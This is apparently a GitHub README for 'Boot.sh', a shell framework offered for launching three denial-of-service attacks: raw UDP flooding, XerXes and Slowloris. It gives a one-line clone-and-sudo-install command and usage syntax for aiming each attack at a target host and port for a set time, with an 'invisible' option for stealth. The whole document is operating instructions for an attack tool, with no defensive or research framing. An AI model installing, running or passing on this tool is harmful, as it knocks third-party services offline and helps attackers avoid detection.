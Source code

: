 # Boot.sh
Simple, free, open-source framework using three public DoS Attacks.

### Install
```sh
$ git clone https://github.com/OfficialDataBuster/Boot.sh.git; cd Boot.sh; chmod +x install; sudo ./install; rm install && clear; ./boot.sh
```

### Usage
* Usage Raw UDP: **/boot.sh rawudp [ip] [port] [time] [size] [invisible (1/0)]**
* Usage XerXes: **./boot.sh xerxes [hostname] [port] [time] [invisible (1/0)]**
* Usage Slowloris: .**/boot.sh slowloris [hostname] [port] [time] [https or http] [invisible (1/0)]**
                                                                                     1=yes, 0=no
